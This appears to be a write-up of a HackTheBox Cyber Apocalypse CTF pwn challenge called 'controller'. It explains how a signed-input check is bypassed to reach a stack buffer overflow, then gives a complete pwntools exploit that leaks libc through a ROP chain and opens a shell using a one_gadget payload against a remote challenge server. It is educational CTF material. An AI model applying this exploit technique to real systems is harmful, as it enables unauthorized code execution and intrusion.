


## Hackthebox Cyberapocalypse CTF: controller [pwn]


## challenge information
#### We were given a binary with no canary and no PIE enabled along with the challenge libc. Running the program presents us with a calculator themed binary with a prompt for two integer input and a choice for what arithmetic operation to do with those inputs. 

## reverse engineering + vulns
#### After letting ghidra do it's work on the binary, we find out that the program runs in a loop with the following code:
```c

void calculator(void)

{
  char buffer [28];
  int local_c;
  
  local_c = calc();
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf("%s",buffer);
    if ((buffer[0] == 'y') || (buffer[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```

#### We clearly see a possible buffer overflow when we try to "report a problem". the program has no size checks for the size of the string input that will be stored on a 28-byte buffer. However, in order to proceed to this buffer overflow option, we need to pass a check from a value that is returned from `calc()`. 

#### Inspecting calc leads to the code responsible for getting the two integer inputs and performing the operations. An interesting part of the code is what datatype our inputs are being stored in.
```c
  uint input2;
  uint input1;
  int local_10;
  uint local_c;
  
  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d",&input1,&input2);
  local_10 = menu();
  if ((0x45 < (int)input1) || (0x45 < (int)input2)) {
    printstr("We cannot use these many resources at once!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x69);
```
#### Both inputs are stored as unsigned integers which only store integers in the range of `0-4,294,967,295`. We also know that our inputs should be less than 0x45. What happens if we try to input negative integers then? In that case, we may run into an [integer overflow](https://sploitfun.wordpress.com/2015/06/23/integer-overflow/). 

#### Since we can input negative integers, we need to find integers x and y such that when performing any of the possible arithmetic operations on these integers will result to 0xff3a so that we can perform the buffer overflow for code execution. I tested a short z3 script to find the values that I need.

```python
from z3 import *

s = Solver()
a = Int('a')
b = Int('b')

s.add(a - b == 0xff3a)
s.add(a < 0x45)
s.add(b < 0x45)

if s.check():
	print(s.model())

#: returns [a = 68, b = -65270]
```

#### Providing the results into the program allows us to pass the check and submit a "report". We can crash the program by trying to input a long cyclic pattern and examining it on a debugger confirms that we can control the instruction pointer. From this point, we can proceed to do the usual stuff to leak some libc pointers and send a one_gadget payload to pop a shell. 



##### exploit script
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./controller', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./controller', env = {'LD_PRELOAD' : libc.path})
p = remote("165.227.231.249", 32172)

#: GDB SETTINGS
breakpoints = []
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
pop_rdi = 0x4011d3

#: PWN THY VULNS
p.sendlineafter(b':', '68 -65270')
p.sendlineafter(b':', '2') #: subtract

exploit = cyclic(40)
exploit += p64(pop_rdi)
exploit += p64(binary.got.setvbuf)
exploit += p64(binary.sym.puts)
exploit += p64(binary.sym.main)
p.sendline(exploit)

print(p.recvuntil(b'ingored\n'))
setvbuf_leak = u64(p.recvuntil(b'\n').strip().ljust(8, b'\x00'))
libc.address = setvbuf_leak - libc.sym.setvbuf
log.info(hex(setvbuf_leak))
log.info(hex(libc.address))

#: START PHASE2
p.sendlineafter(b':', '68 -65270')
p.sendlineafter(b':', '2') #: subtract

one_gadgets = [0x4f3d5, 0x4f432, 0x10a41c]
exploit = cyclic(40)
exploit += p64(libc.address + one_gadgets[0])
p.sendline(exploit)
p.interactive()
```
